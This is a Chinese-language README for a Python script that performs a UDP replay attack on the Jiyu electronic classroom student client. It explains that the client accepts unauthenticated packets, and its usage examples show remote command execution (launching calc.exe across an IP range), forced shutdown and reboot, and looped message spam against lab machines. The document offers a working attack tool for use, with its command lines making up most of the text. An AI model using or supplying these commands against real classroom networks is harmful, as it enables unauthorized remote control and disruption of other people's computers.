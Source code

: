 
# 极域电子教室数据包(udp)重放攻击脚本
+ 因为极域的学生端没有对接收到的udp包做(=・ω・=)身份验证，导致了我们可以构造特定的数据包让学生端来执行，从而实现命令执行攻击机房内上线的任意学生端机器。
## 运行环境
+ Python3

## 使用方法：
```
    Usage: Jiyu_udp_attack.py -ip ip_address -p port -msg/-c/-r/-s xxx

        -ip   ip addres IP地址                 example:   -ip   192.168.80.23
                                                                192.168.80.122/24
        -p    port, default = 4705 端口，默认为4705

        -msg  send message 发送消息                        -msg  HelloWord!

        -c    command 命令                                 -c   "cmd.exe /c ipconfig" 
                                                                calc.exe
        -r    reboot 重启

        -s    shutdown 关机

        -l    loop * times, default = 1 循环次数，默认为1

        -t    loop interval, default = 22 s 循环时间间隔，默认是22秒
        
        -g    single options, Gets the current Intranet IP. 独立选项，获取当前的ip地址。
              If choose this options, other are become invalid. 如果选择了这个选项，其他选项将会失效。
          
```

## 使用例子

### 获取内网ip地址
```
python Jiyu_udp_attack.py -g
```

### 发送消息
向IP地址为192.168.80.12的机器发送一条内容为"hello,baby!"的消息
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -p -msg "hello,baby!"

```

### 执行命令
给192.168.80.12到192.168.80.137弹一个计算器
```
python Jiyu_udp_attack.py -ip 192.168.80.12-137 -p -c calc.exe
```

### 关机重启
关机
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -p -s
```
重启
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -p -r
```

### 循环
利用循环持续发送消息<br>
1-254的机器会收到一条"hello,baby!"的消息，50s后会继续执行，共执行3次
```
    python Jiyu_udp_attack.py -ip 192.168.80.23/24 -p -msg "hello,baby!" -l 3 -t 50
```

    



